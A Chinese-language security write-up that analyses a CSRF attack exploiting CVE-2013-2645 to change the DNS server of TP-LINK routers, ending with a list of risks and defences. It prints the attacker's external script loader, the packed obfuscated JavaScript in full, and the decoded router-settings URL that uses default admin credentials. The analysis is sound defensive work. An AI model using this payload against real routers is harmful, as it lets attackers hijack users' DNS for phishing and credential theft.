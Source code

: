 # 针对TP-LINK的CSRF攻击来劫持DNS案例

0x00 背景
-------

* * *

路由被CSRF攻击，修改DNS的话题最近一直比较活跃，但是国内貌似没有一个技术文章详细的分析此漏洞，漏洞成因比较简单，本篇来科普一下。

本篇讲得是一个利用CVE-2013-2645的漏洞，来修改TP-LINK的DNS案例，针对其他路由的攻击大同小异。

0x01 EXP分析
----------

* * *

攻击者会在自己的网站或者已经受他控制的网站上加入一段javascript代码：

```
document.write("<script type=\"text/javascript\" src=\"http://www.xxxxxx.com/js/ma.js\">");

```

javascript代码动态的从外站加载一个ma.js的文件，看一下ma.js文件里的内容：

```
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c][/c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c][/c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c][/c]);return p;}('T w$=["\\E\\6\\5\\m\\o\\3\\q\\5\\m\\8\\3\\7\\"\\5\\3\\G\\5\\j\\r\\6\\6\\"\\y\\B\\d\\e\\8\\v\\4\\5\\q\\u\\4\\o\\H\\n\\5\\5\\8\\A\\j\\j\\a\\i\\e\\d\\f\\A\\a\\i\\e\\d\\f\\B\\2\\k\\h\\1\\2\\g\\9\\1\\2\\1\\2\\j\\u\\6\\3\\4\\z\\8\\e\\j\\s\\a\\f\\F\\n\\r\\8\\C\\3\\4\\l\\3\\4\\z\\8\\e\\1\\n\\5\\e\\I\\i\\n\\r\\8\\6\\3\\4\\l\\3\\4\\7\\2\\c\\d\\8\\2\\7\\2\\k\\h\\1\\2\\g\\9\\1\\2\\1\\2\\b\\b\\c\\d\\8\\h\\7\\2\\k\\h\\1\\2\\g\\9\\1\\2\\1\\2\\k\\k\\c\\s\\3\\a\\6\\3\\7\\2\\h\\b\\c\\Q\\a\\5\\3\\x\\a\\m\\7\\b\\1\\b\\1\\b\\1\\b\\c\\i\\v\\e\\a\\d\\f\\7\\c\\i\\f\\6\\6\\3\\4\\l\\3\\4\\7\\2\\b\\g\\1\\2\\9\\P\\1\\D\\g\\1\\9\\R\\c\\i\\f\\6\\6\\3\\4\\l\\3\\4\\h\\7\\9\\1\\9\\1\\9\\1\\9\\c\\C\\a\\l\\3\\7\\p\\t\\2\\p\\S\\D\\O\\p\\t\\K\\p\\J\\g\\L\\N\\E\\j\\6\\5\\m\\o\\3\\y\\q"];M["\\x\\4\\d\\5\\3\\o\\f"](w$[0]);',56,56,'|x2e|x31|x65|x72|x74|x73|x3d|x70|x38|x61|x30|x26|x69|x6d|x6e|x36|x32|x64|x2f|x39|x76|x79|x68|x6c|x25|x20|x63|x4c|x42|x75|x6f|_|x77|x3e|x52|x3a|x40|x53|x33|x3c|x44|x78|x28|x3f|x45|x34|x29|document|x3b|x2b|x37|x67|x35|x41|var'.split('|'),0,{}))

```

嗯，是一段混淆的js代码，eval执行一段混淆代码，把eval换成console.log在浏览器的控制台输出一下：

```
var _$=["\x3c\x73\x74\x79\x6c\x65\x20\x74\x79\x70\x65\x3d\"\x74\x65\x78\x74\x2f\x63\x73\x73\"\x3e\x40\x69\x6d\x70\x6f\x72\x74\x20\x75\x72\x6c\x28\x68\x74\x74\x70\x3a\x2f\x2f\x61\x64\x6d\x69\x6e\x3a\x61\x64\x6d\x69\x6e\x40\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x2f\x75\x73\x65\x72\x52\x70\x6d\x2f\x4c\x61\x6e\x44\x68\x63\x70\x53\x65\x72\x76\x65\x72\x52\x70\x6d\x2e\x68\x74\x6d\x3f\x64\x68\x63\x70\x73\x65\x72\x76\x65\x72\x3d\x31\x26\x69\x70\x31\x3d\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x30\x30\x26\x69\x70\x32\x3d\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x39\x39\x26\x4c\x65\x61\x73\x65\x3d\x31\x32\x30\x26\x67\x61\x74\x65\x77\x61\x79\x3d\x30\x2e\x30\x2e\x30\x2e\x30\x26\x64\x6f\x6d\x61\x69\x6e\x3d\x26\x64\x6e\x73\x73\x65\x72\x76\x65\x72\x3d\x31\x30\x36\x2e\x31\x38\x37\x2e\x33\x36\x2e\x38\x35\x26\x64\x6e\x73\x73\x65\x72\x76\x65\x72\x32\x3d\x38\x2e\x38\x2e\x38\x2e\x38\x26\x53\x61\x76\x65\x3d\x25\x42\x31\x25\x41\x33\x2b\x25\x42\x34\x25\x45\x36\x29\x3b\x3c\x2f\x73\x74\x79\x6c\x65\x3e\x20"];document["\x77\x72\x69\x74\x65\x6c\x6e"](_$[0]);

```

仍然是混淆的代码，但是比一开始的容易看很多，只是把一些字符串给转成了16进制方式表示而已。

`\x77\x72\x69\x74\x65\x6c\x6e`这段16进制表示的是字符串`writeln`。

javascript中`document["writeln"]`与document.writeln一样，这是javascript两种访问对象属性的写法。

代码最终等同于：

```
document.writeln('<style type="text/css">@import url(http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.1.100&ip2=192.168.1.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=106.187.36.85&dnsserver2=8.8.8.8&Save=%B1%A3+%B4%E6);</style>')

```

现在就很明了了，写了一个style标签import一个css调用，让浏览器去访问这个地址：

```
http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.1.100&ip2=192.168.1.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=106.187.36.85&dnsserver2=8.8.8.8&Save=%B1%A3+%B4%E6

```

很明显的一个CSRF攻击，攻击者的主要目的是把dns服务器换成106.187.36.85，为了使攻击成功，还加入了一些必要的提交参数，如ip范围是从192.168.1.100-199等。

为了确保所有访问都没有问题，还加入了google的dns，当106.187.36.85有不能解析的域名时，去8.8.8.8获取地址。

针对CSRF的原理危害以及修复方式，drops之前有文章讲过可以参考一下：

[CSRF简单介绍及利用方法](http://drops.wooyun.org/papers/155)

应当注意的是这个利用是根据路由的默认密码进入后台做一系列的操作的，如果路由器已经修改的默认用户名密码，可以避免此危害，但是如果浏览器已经在路由后台，或者cookie还未失效，仍然能够攻击成功。

0x02 修改DNS的危害
-------------

* * *

攻击者为什么要修改DNS呢，当他获取DNS的权限后，他能做什么呢：

```
1、用户打开一个正常网站时，重定向到一个钓鱼网站。
2、给正常网站加入挂马代码，控制用户PC。
3、软件升级时候不用签名的话，可控制软件的升级。
4、不使用证书的话可以截取邮箱密码，网站上的密码等等。
5、更改网站上的广告，换成自己的。（我觉得这是天朝黑客获取利润的方式）

```

0x03 如何避免这种攻击
-------------

* * *

```
1、首先应该先检查一下自己的dns是否已经被改变了。
2、升级路由的固件，有部分型号已经修复。
3、更改路由器的默认密码。
4、登陆路由后，退出要点击“注销”。
```